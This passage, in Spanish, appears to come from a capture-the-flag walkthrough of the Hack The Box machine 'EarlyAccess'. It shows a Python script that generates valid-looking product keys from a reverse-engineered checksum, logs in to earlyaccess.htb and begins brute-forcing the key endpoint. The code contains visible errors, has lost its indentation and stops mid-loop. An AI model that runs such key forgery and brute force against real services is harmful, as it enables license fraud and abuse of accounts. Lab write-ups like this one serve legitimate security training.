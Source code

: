 ### Generando key válida

A este punto tenemos <i>g1, g2, g3 y g4</i>, <i>cs_sum</i> será generado automático en la función cs_sum.

```python
#!/usr/bin/python

from itertools import product
import time, sys, string, requests, urllib3
from pwn import *

def calc_cs(key) -> int:
gs = key.split('-')[:-1]
return sum([sum(bytearray(g.encode())) for g in gs])


def gen_g3():
p1 = product(string.ascii_uppercase, repeat=2)
p1 = [ "".join(i) for i in p1 ]
uniques = {}

for i in p1:
for j in range(0, 10):
cadena = f"XP{i}{j}"
value = sum(bytearray(cadena.encode()))
uniques[value] = cadena

return uniques.values()

def generateKeys():
g3s = gen_g3)
totalkeys = []
for g3 in g3s:
key = f'KEY25-0H0H0-{g3}-'
cs = calc_cs(key)
full_key = key + str(cs)
totalkeys.append(full_key)
return totalkeys

def do_post(keys):
url_login = 'https://earlyaccess.htb/login'
url_key = 'https://earlyaccess.htb/key'
url_try_key = 'https://earlyaccess.htb/key/add'
s = requests.session()
s.verify = False

r = s.get(url_login)

token = re.findall(r'name="_token" value="(.*?)"', r.text[0])
post_data = {
'_token': token,
'email': 'leonardo@leonardo.com',
'password': 'leonardo1234'
}

r = s.post(url_login, data=post_data)

p1 = log.progress("Fuerza Bruta")
p1.status("Iniciando...")
counter = 1

for key in keys:

```
